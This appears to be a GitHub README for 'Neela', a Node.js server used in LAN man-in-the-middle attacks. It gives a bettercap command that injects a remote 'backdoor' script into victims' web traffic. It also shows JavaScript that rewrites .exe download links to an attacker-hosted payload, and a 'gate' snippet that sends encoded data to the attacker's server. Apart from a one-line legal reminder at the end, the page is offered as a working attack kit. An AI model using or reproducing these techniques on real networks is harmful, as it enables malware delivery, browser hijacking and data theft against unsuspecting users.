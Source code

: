 ![Neela LAN](https://s31.postimg.org/40czeg3zv/home.png)

###### Require:
    - express
    - body-parser
    - colors
    - cookie-parser
    - cookie-session
    - dns
    - ent
    - express-session
    - ip
    - socket.io
    - os
    - request-ip

##### Start server

```javascript
node neela.js
```

![Neela](https://s31.postimg.org/46463yy8b/Capture_d_e_cran_2016_07_07_a_16_27_26.png)

##### Hacking with bettercap

```
--proxy-module injectjs --js-url "http://SERV_IP:3000/backdoor"
```

![bettercap with Neela](https://s32.postimg.org/duji0l405/Capture_d_e_cran_2016_07_07_a_16_25_50.png)

##### Make Routine & Hack !
* /exploit/routine

```javascript
if(document.getElementsByTagName('a') !== undefined){
  var list = document.getElementsByTagName('a');
  for(var x = 0;x < list.length;x++){
    console.log(list[x].href);
    var current = list[x].href;
    if(current.indexOf('.exe') > -1){
      list[x].href = 'http://IP_SERVER:3000/payload'
    }
  }
}

```

##### Gate receipt

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://SERV_IP:3000/gate/'+encoded, false);
req.send(null);
```
![Neela](https://s31.postimg.org/wdfic47wr/Capture_d_e_cran_2016_07_07_a_15_32_28.png)

##### Neela Logs

![Neela logs](https://s31.postimg.org/qgshncf17/logs.png)


reminder, infiltrate, monitor, computer system without authorization is a crime
